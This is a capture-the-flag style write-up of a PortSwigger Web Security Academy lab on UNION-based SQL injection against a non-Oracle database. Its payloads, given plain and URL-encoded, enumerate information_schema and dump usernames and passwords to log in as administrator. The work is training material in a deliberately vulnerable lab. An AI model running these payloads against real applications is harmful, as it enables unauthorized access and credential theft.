

# Lab: SQL injection attack, listing the database contents on non-Oracle databases

**Platform:** PortSwigger Web Security Academy 
**Category:** SQL Injection 
**Difficulty:** Practitioner 

## 🎯 Objective
The application contains a SQL injection vulnerability in the product category filter. The goal is to use a `UNION` attack to query the `information_schema`, discover the table holding user credentials, extract the column names, and finally dump the usernames and passwords to log in as the `administrator`.

## 🕵️‍♂️ Analysis
Because this is a non-Oracle database, it is possible to interact with the `information_schema`, a built-in database dictionary. By chaining `UNION SELECT` queries, I can systematically enumerate the database structure:
1. `information_schema.tables` contains the names of all tables.
2. `information_schema.columns` contains the names of all columns within those tables.

## 🚀 Payload & Execution
After confirming the original query expects two columns that both accept text (using `UNION SELECT 'a', 'b'--`), I executed a multi-step enumeration attack.

### Step 1: Find the Users Table
I queried the database for all table names to find the one holding credentials.
* **Payload:** `' UNION SELECT table_name, NULL FROM information_schema.tables--`
* **Discovery:** Identified a table named `users_ygdjmv`.

### Step 2: Find the Target Columns
Next, I queried the column names specifically for the `users_ygdjmv` table to find where the usernames and passwords were stored.
* **Payload:** `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_ygdjmv'--`
* *(URL Encoded: `%27%20UNION%20SELECT%20column_name,%20NULL%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%27users_ygdjmv%27--`)*
* **Discovery:** Identified the columns `username_avsizu` and `password_fhpuuo`.

### Step 3: Extract the Credentials
Finally, I constructed a query to dump the contents of those specific columns from the target table.
* **Payload:** `' UNION SELECT username_avsizu, password_fhpuuo FROM users_ygdjmv--`
* *(URL Encoded: `%27%20UNION%20SELECT%20username_avsizu,%20password_fhpuuo%20FROM%20users_ygdjmv--`)*
* **Result:** The database returned the user credentials directly onto the webpage, revealing the administrator password.

## 📸 Proof of Concept

